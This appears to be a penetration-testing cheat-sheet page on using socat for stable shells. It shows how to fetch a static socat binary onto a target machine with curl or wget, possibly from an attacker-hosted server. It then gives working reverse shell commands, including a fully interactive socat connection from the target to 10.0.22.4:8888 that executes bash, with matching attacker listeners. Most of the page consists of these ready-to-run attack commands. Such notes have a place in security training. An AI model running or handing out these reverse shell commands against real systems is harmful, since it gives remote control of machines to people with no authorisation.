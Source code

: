 # socat

### Stable shell

Using basic methods such as netcat will generate a shell that might not be stable: terminates with ctrl+Z, non-interactive shell, etc. Alternative methods are available:

Socat is generally more stable on Linux systems compared to Windows (target machine). As socat might not be installed on all target Linux systems, it will need to be installed. However, the common method of using `apt install` or `apt-get install` is not ideal as it requires multiple dependencies and other possible configurations.&#x20;

Instead, a static compiled binary (without dependencies) can be installed from a direct HTTP URL on the target machine using tools such as `curl` or `wget`. Link: [https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

```bash
$ curl https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true --output /bin/socat
```

```bash
$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true -O /bin/socat
```



_**Note**_: The output directory depends on a few factors such as the current working directory, or the value of the `$SHELL`environment variable. This is important to ensure the installed binary can be executed from the target machine.

#### Hosting the binary on a publicly accessible attacker-controlled machine

The binary can also be hosted on another attacker-controlled machine on the internet, and be accessed via a simple Python web server running on that machine.

### Reverse shell

#### Basic command to run on the attacker machine (listening)

```bash
$ socat tcp-l:[listen_port] -
```

#### Basic command to run on the target machine (initiate revere shell connection)

```bash
$ socat tcp:[attacker_ip]:[attacker_port] EXEC:"bash -li"
```

### Best reverse shell experience

Target machine

```bash
$ socat TCP:10.0.22.4:8888 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

Attacker machine

```bash
$ socat tcp-l:8888 -
```
